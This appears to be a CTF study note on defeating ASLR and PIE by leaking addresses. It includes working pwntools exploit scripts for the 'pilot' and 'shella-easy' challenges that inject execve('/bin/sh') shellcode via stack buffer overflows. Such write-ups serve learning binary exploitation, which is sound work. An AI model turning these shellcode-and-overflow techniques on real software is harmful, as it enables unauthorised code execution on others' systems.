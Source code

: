 # PIE and ASLR

## ASLR

**Address Space Layout Randomization**  
The address of memory is randomized, but the offsets between various pieces of memory remain the same.  
To bypass ASLR we need to leak a memory address and calculate the offset to what we are targeting.  

`vmmap` can be used inside `gdb`/`pwndgb` to view memory addresses space.  
```bash
gdb vuln
b main
run
vmmap
```

An information leak isonly good for the region of memory that is leaked.
I.e. an address leaked in the `libc` region is only good for the `libc` region, it cannot be used to calculate the address space for things like the `heap` or `stack`.  

## PIE

**Position Indipendant Executable**  
PIE is very similar to ASLR but for the actual binary's code/memory regions.  
The exploit is the same as ASLR: Leak an address and calculate the offset to your target.  


---

## Challs That Give You a Leak

### Csaw 2017 pilot

This program prints out a memory address and then takes in user input.  
User input can overflow a buffer which will overwrite a return address on the stack.  

```bash
$ ./pilot      
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff49f86a30
[*]Command:
```
When opening in GDB there are no clear function names. Using `objdump` helps to read the assembly.  
After setting breakpoints you find out that the leaked address points to the start of user input on the stack.  
 
The following exploit fills the buffer with shellcode, pads with nops to overflow the buffer and uses the leaked address  
to return to the start of the user input and execute the shellcode.  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level = "debug"

io = process("./pilot")

# Receive lines until the leaked address
io.recvuntil(b"[*]Location:")

# Grab the address
addr = io.recvline().strip(b'\n')

# Receive lines until the user input is required
io.recvuntil(b"[*]Command:")

# Set the offset to the return address
offset = 40

# Shellcode from https://www.exploit-db.com/exploits/36858
shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

# NOPSled to fill the buffer
nops = b"\x90" * (offset - len(shellcode))

# Build the payload
payload = shellcode + nops + p64(int(addr, 16))

# Send the payload and win
io.sendline(payload)
io.interactive()
```

### Tuctf 2018 shella-easy

This challenge is the same as above except it has a built in stack canary.  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level = "debug"
io = process("./shella-easy")

# Save the leaked address
io.recvuntil("have a ")
addr = int(io.recvline().strip(b" with a side of fries thanks\n"), 16)

offset = 64   # offset to the stack canary
check = p32(0xdeadbeef)   # Value to set the canary
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nops = b"\x90" * (offset - len(shellcode))

# Shellcode, padding to the canary, the canary, padding to the leaked address, the leaked address
payload = shellcode + nops + check + (b"\x90" * 8) + p32(addr) 

io.sendline(payload)
io.interactive()
```
